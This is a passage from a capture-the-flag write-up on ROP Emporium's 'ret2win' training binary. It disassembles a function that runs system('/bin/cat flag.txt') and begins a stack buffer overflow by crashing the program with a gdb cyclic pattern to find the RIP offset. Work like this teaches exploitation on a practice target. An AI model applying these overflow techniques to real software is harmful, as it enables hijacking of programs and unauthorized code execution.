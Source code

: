 ```bash
[0x00400650]> pdf @sym.ret2win
/ (fcn) sym.ret2win 32
|   sym.ret2win ();
|           0x00400811      55             push rbp
|           0x00400812      4889e5         mov rbp, rsp
|           0x00400815      bfe0094000     mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:" ; const char * format
|           0x0040081a      b800000000     mov eax, 0
|           0x0040081f      e8ccfdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x00400824      bffd094000     mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt" ; const char * string
|           0x00400829      e8b2fdffff     call sym.imp.system         ; int system(const char *string)
|           0x0040082e      90             nop
|           0x0040082f      5d             pop rbp
\           0x00400830      c3             ret

```

We see that there is a string with **/bin/cat flag.txt** and a system function call of C, in case you don't know what `system` does, it executes the arguments as bash command. 

Since we want to jump to address `0x00400811` in order to execute above function which will print our flag. In order to execute this we need to find the offset that we need to overwrite the instruction pointer. In this case, it is a 64-bit ELF we have to find **RIP** if it was 32-bit ELF we had to find **EIP**. Let's try to create a pattern offset uding gdb.

```bash
robin@oracle:~/ROP-Emporium$ gdb ret2win
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ret2win...(no debugging symbols found)...done.
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ pattern_create 100 input
Writing pattern of 100 chars to filename "input"
gdb-peda$ r < input
Starting program: /home/robin/ROP-Emporium/ret2win < input
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> 
Program received signal SIGSEGV, Segmentation fault.

```

